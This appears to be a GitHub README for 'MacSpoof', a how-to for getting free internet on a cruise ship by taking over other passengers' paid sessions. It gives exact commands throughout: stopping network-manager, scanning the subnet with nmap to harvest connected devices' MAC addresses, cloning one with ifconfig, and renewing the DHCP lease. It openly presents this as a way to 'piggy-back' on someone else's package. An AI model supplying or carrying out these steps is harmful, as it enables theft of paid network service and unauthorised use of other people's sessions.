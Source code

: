 MacSpoof
========

Utilizes nmap, dhclient, and wpa_supplicant

<p><a href="url"><img src="http://i.imgur.com/upABDr6.jpg" height="600" width="480" ></a></p>

========


Chances are that aboard a cruise ship with a maximum capacity of 5,000+ people, a few dozen will have already purchased an internet package. What we want to do is spoof our computer’s MAC Address to match that of those computers who are already connected to the network. If a computer is logged in and has access to the internet, any computer with the same MAC Address will have access to the internet as well. This means we can "piggy-back" on someone else's package. AND, if they only paid for one device, it won't kick them off. 

We assume several things here. First, that the computer has gotten past the login page. It is highly likely that someone won’t just be staring at the login page while connected to the network for more than 5 minutes. Second, that the router will actually give us an IP address. This is important, without an IP address we won't be able to connect. Third, the router will let us connect. There are thousands of access points aboard the ship. If we fail to connect successfully with a particular BSSID, we must try another one. Luckily, wpa_supplicant does this automatically. 


Install the following packages:

* nmap
* wpa_supplicant      (default)
* ip link or ifconfig (default)

Requirements:
* Linux
* Wireless interface


1. Connect to the network. Make sure you do this via **wpa_supplicant**. It will make reassociating with the network easier when you change your MAC Address and request an IP from a router. 
NOTE: On Ubuntu, network-manager runs in the background. It needs to be disabled while **wpa_supplicant** is running! 

        sudo stop network-manager
        sudo wpa_supplicant -D nl08211 -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf`

2. Scan the network for connected devices. We want the MAC Addresses. You must run nmap as sudo. Otherwise you will not get any MAC Addresses. We will scan the entire subnet from 172.27.20.0 to 172.27.20.255. Your IP range depends on the IP address given to you when you first connected to the network. This will let you know which node you have connected to. /<numbits> are the same as the reference IP or hostname given. There are 32 bits in an IPv4 address. We keep 24 fixed, the last 8 bits are variable. 

        sudo nmap -sP 172.27.20.0/24

3. nmap should produce an output similar to this:

        Nmap scan report for WiMaxCPE (192.168.15.1)
        Host is up (0.0024s latency).
        MAC Address: 00:1D:88:30:71:8D (Clearwire)
        Nmap scan report for ThinkPad-W530 (192.168.15.253)
        MAC Address: 00:1D:88:30:64:1D (ThinkPad) 
        Host is up.
        ...

4. Spoof your MAC Address

        sudo ifconfig wlan0 down hw ether 00:1D:88:30:64:1D
        sudo ifconfig wlan0 up

5. Obtain a DHCP lease from the router. The router will give you an IP address upon success. Then you are all set!
        sudo dhclient -r
        sudo dhclient -v wlan0

6. Visit any webpage. You should not be redirected to a login page if owner of the MAC Address has paid for internet. 

7. ???

8. PROFIT



=====

Guandi97
EngineerisEngieHere

